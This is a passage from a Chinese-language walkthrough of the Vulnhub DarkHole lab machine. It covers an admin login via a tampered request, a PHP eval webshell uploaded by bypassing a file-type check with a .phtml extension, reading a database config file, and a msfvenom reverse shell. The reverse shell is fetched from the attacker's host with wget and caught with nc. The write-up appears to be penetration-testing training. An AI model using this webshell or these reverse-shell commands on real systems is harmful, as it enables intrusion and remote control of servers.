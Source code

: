 ![](D:\stu\vulnhub\darkhole靶场\pic-1\16-6.jpg)



之前前面在进行注册的时候，以`admin`注册时，提示已经有了，那么以`admin`并以改过数据包的密码进行登录测试

登录成功，发现不一样的点在于，多了上传功能

![](D:\stu\vulnhub\darkhole靶场\pic-1\16-7.jpg)





#### 文件上传测试

尝试上传一句话木马

```php
<?php @eval($_REQUEST['cmd']);?>
```

有检测，提示只能上传图片类型

![](D:\stu\vulnhub\darkhole靶场\pic-1\17.jpg)



尝试把`php`格式改为图片格式，再进行上传，这里要配合抓包

在`burp`抓取的数据包中修改原本的图片格式，改为`php`

![](D:\stu\vulnhub\darkhole靶场\pic-1\17-1.jpg)



还是提示只能上传图片格式



那么这里就使劲进行测试，先把扩展格式，大小写等先测试一遍，测试了一遍，发现，`phtml`可以上传成功，并且使用蚁🗡可以连接

![](D:\stu\vulnhub\darkhole靶场\pic-1\17-2.jpg)



![](D:\stu\vulnhub\darkhole靶场\pic-1\17-3.jpg)



之前那个数据库文件`/config/database.php`去看看

![](D:\stu\vulnhub\darkhole靶场\pic-1\17-4.jpg)



#### 反弹shell

获取到数据库的账户和密码，不知道能否可用于登录，测试发现无用，生成一个`php`反弹。为什么要生成呢，也是为了能够熟练其他操作，当然在蚁🗡上也是可以直接使用终端的。

这里只是生成一个简单的反弹`shell`，还可以用`msf`生成一个shell，然后使用`msf`中的`exploit/multi/handler`模块监听即可获取一个终端

```shell
kali上运行
msfvenom -p php/reverse_php LHOST=192.168.1.16 LPORT=9999 > te.php
python3 -m http.server 8888
nc -lvvp 9999

靶机下载后，通过浏览器访问该php文件，这里放入/upload下
wget http://192.168.1.16:8888/te.php
```

